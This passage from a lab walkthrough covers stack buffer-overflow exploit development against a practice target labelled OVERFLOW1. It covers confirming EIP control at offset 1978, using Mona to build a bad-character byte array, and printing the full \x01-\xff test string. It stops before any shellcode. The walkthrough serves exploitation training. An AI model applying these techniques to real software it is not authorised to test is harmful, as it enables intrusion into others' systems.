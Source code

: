 We're looking for the line that says 'EIP contains normal pattern:' and then we'll pull the offset  from here.

![Tiberius1](images/tiberius1.png)

Great. We modify our exploit.py, but this time we remove the payload and replace it with 4 A's and set the offset to the value we found above:
```
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "AAAA"
padding = ""
payload = ""
postfix = ""
```

Restarting the app and immunity, we re-run exploit.py and can see that EIP displays '41414141' - Hex code for 4 A's. We now have control over the EIP.

### Finding Bad Characters
We use Mona to generate a byte array, which is then placed in the working directory we specified at the very beginning of this exercise. Note that \00 is just us excluding the null byte (and is required):
```
!mona bytearray -b "\x00"
```
"Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff":
```
#!/usr/bin/env python3
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
The reason we've done this, is to get the bytearray to output as a single line, rather than being broken up into several and having to worry about quotes everywhere. I feel like I could still do it without that step, but we'll follow along for now. Once generated, we shouldn't have to do this ever again. We just copy/paste the string. For the hell of it, I'll include that full string here, so that I can just copy/paste it in the future:
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
